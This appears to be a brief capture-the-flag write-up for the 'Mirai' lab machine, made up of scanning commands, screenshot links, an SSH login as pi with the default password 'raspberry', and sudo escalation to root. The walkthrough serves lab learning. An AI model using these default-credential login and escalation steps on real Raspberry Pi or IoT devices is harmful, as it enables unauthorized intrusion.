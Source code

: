 # ****10.10.10.48 - Mirai****

```bash
rustscan -a 10.10.10.48
```
![image](https://github.com/lufffe/Writeups/assets/90646635/53f36f81-47ca-43ad-8798-5e5dec19eb56)

```bash
gobuster dir -w directory-list-2.3-medium.txt -u [http://10.10.10.48](http://10.10.10.48/) -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/ffdc4848-0b5d-4a2c-be85-171369c50aa4)

```bash
nmap -A -p 22,53,80,1337,32400,32469 10.10.10.48
```
![image](https://github.com/lufffe/Writeups/assets/90646635/5263a3cc-8384-477f-91bb-7eabe0323c24)

http://10.10.10.48/admin/index.php?login
![image](https://github.com/lufffe/Writeups/assets/90646635/8cb32f4e-c6a3-48e6-be56-10188ed73861)

![image](https://github.com/lufffe/Writeups/assets/90646635/c3314b7b-2017-42c0-979e-2ead5a3d4f56)

![image](https://github.com/lufffe/Writeups/assets/90646635/3691c423-5290-47e9-911f-628803f7dd91)

```bash
ssh pi@10.10.10.48 
```
password: raspberry

```bash
cat user.txt
```

```bash
sudo -l
```
![image](https://github.com/lufffe/Writeups/assets/90646635/96f15caa-5ec4-4b1b-9b3f-77cedf5f42f3)

```bash
sudo su
```
![image](https://github.com/lufffe/Writeups/assets/90646635/6f5c6af4-28d6-4752-b8e5-cf126b8b85de)

root@raspberrypi:/media/usbstick# cat damnit.txt
![image](https://github.com/lufffe/Writeups/assets/90646635/bc47bb52-b339-41b5-acb3-b6e453f69cb8)

```bash
strings /dev/sdb
```
